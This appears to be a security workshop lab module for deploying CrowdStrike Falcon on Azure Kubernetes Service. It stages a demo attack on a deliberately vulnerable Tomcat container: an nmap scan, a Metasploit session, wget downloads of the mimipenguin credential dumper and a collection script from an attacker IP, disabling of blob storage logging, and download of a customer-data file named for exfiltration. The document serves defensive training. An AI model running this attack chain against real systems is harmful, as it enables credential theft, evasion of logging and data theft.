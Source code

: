 ```yaml
---
Title: 10b - Protect Azure Kubernetes Service (AKS) Workloads
Description: CrowdStrike Falcon Compute provides a comprehensive set of security capabilities to protect containerized workloads everywhere including AKS
Author: David Okeyode
---
```


## Module 10 - Introduction - Protect Azure Kubernetes Service (AKS) Workloads
In this module, we will begin to walk through the process of installing the CrowdStrike Falcon sensor/agents to protect workloads in an AKS cluster. Here are the exercises that we will complete:

> * Connect to the Linux VM and establish connection to the AKS cluster
> * Install the Falcon Sensor to AKS
> * Install the Falcon KAC (Kubernetes Admissions Controller)
> * Install the Falcon KPA (Kubernetes Protection Agent)
> * Install the Falcon IAR (Image Assessment at Runtime)
> * Troubleshooting AKS Sensor/Agent Deployments
> * Prevent untrusted images from being deployed to AKS

## Exercise 1 - Deploy Sample Vulnerable App to AKS

```
mkdir k8s-deployments
cd k8s-deployments

curl -o tomcat-webshell.yaml https://raw.githubusercontent.com/davidokeyode/crowdstrike-workshop-labs/refs/heads/main/workshops/azure-cloud-protection/templates/tomcat-webshell.yaml

kubectl apply -f tomcat-webshell.yaml
```


1. Launch nmap with the parameters pointing to the IP address of the target system. This will also show the names of the service that might be running and let us know if there is a vulnerability that we can exploit.
* After the scan is complete, We can see that there's an http service running Apache Tomcat/Coyote JSP engine 1.1.

```
nmap -R -Pn -p30007 -sV 172.17.0.33
```


2. Metasploit is a Penetration Testing Framework that provides information about security vulnerabilities. Launch Metasploit with a script that has all the necessary parameters (e.g. ip address, exploit to use, etc) for the target already pre-populated and gain control of the container.

```
msfconsole -q -r startup.rc
```

> * We can see that session 1 has been opened.

3. Connect to the session: 
```
sessions -i 1
```

4. Now that we have full control of the system, we can continue our attack. We can now download our scripts with wget to perform post exploitation activity. The command also makes the new scripts executable with the chmod command.
* Mimipenguin is a free and open source, simple yet powerful Shell/Python script used to dump the login credentials (usernames and passwords) from the current Linux desktop user and it has been tested on various Linux distributions.
```
wget https://raw.githubusercontent.com/huntergregal/mimipenguin/refs/heads/master/mimipenguin.sh; wget http://172.17.0.21/collection.sh;chmod +x *.sh; ls -l *.sh
ls

wget https://raw.githubusercontent.com/davidokeyode/crowdstrike-workshop-labs/refs/heads/main/workshops/azure-cloud-protection/templates/mimipenguin.sh; wget https://raw.githubusercontent.com/davidokeyode/crowdstrike-workshop-labs/refs/heads/main/workshops/azure-cloud-protection/templates/collection.sh;chmod +x *.sh; ls -l *.sh
ls

https://raw.githubusercontent.com/davidokeyode/crowdstrike-workshop-labs/refs/heads/main/workshops/azure-cloud-protection/templates/mimipenguin.sh

https://raw.githubusercontent.com/davidokeyode/crowdstrike-workshop-labs/refs/heads/main/workshops/azure-cloud-protection/templates/collection.sh

wget http://172.17.0.21/mimipenguin.sh; wget http://172.17.0.21/collection.sh;chmod +x *.sh; ls -l *.sh
ls
```



5. Once the container is compromised, the attacker will move laterally and leverage the IAM role attached to the instance to disable logging on a specific S3 bucket.

a. List all the S3 buckets.
```
az storage account list --query "[?contains(name, 'azlab')].{Name:name}"

STORAGE_ACCOUNT_NAME=$(az storage account list --query "[?contains(name, 'azlab')].{Name:name}" -o tsv)

echo $STORAGE_ACCOUNT_NAME
```

b. Review the log settings for the blob storage.
az storage logging show --account-name $STORAGE_ACCOUNT_NAME --services b 

c. Disable logging for the blob storage.
az storage logging off --account-name $STORAGE_ACCOUNT_NAME --services b


** Enable logging for the blob storage
az storage logging update --account-name $STORAGE_ACCOUNT_NAME --services b --log rwd --retention 1



d. Finishing out the lateral movement with the actual point of the attack is to steal data. List content in the bucket.

az storage container list --account-name $STORAGE_ACCOUNT_NAME --query "[].name" -o tsv

CONTAINER=$(az storage container list --account-name $STORAGE_ACCOUNT_NAME --query "[].name" -o tsv)

az storage blob list --account-name $STORAGE_ACCOUNT_NAME --container-name $CONTAINER --query "[].name" -o tsv


e. Copy the content of the Confidential file into a new file called stolen-info.txt. Check if the file was downloaded.

az storage blob download --account-name $STORAGE_ACCOUNT_NAME --container-name $CONTAINER --name sensitive_customer_private_information.csv --file exfil_data.csv

ls

cat exfil_data.csv













## Exercise 6 - Deploy Sample App to AKS

1. **Open the Cloud Shell**

2. **If you have more than one Azure subscription, ensure you are in the right one that you deployed the lab resources into**
```
az account show
az account list -o table
az account set -s <subscription_name>
```

3. **Configure kubectl to connect to your Kubernetes cluster, use the `az aks get-credentials` command. `Kubectl` is pre-installed in the Azure cloud shell.** 
```
az aks get-credentials --resource-group azlab-rg --name azlab-aks
```

4. **To verify the connection to your cluster, run the `kubectl` get nodes command to return a list of the cluster nodes.**
```
kubectl get nodes
```

5. **Create namespace**
```
kubectl create namespace sock-shop
```

6. **Clone the `microservices-demo` repository**
```
git clone https://github.com/davidokeyode/microservices-demo.git
```

7. **Go to the `deploy/kubernetes` folder**
```
cd microservices-demo/deploy/kubernetes
```

8. **Review file**
```
code aks-complete-demo.yaml
```

9. **Deploy app**
```
kubectl apply -f aks-complete-demo.yaml
```

10. **Get public IP of front-end**
```
kubectl get services --selector=name=front-end -n sock-shop -o wide
kubectl get services -n sock-shop
```

11. **Browse to it**
```
http://<EXTERNAL-IP>
```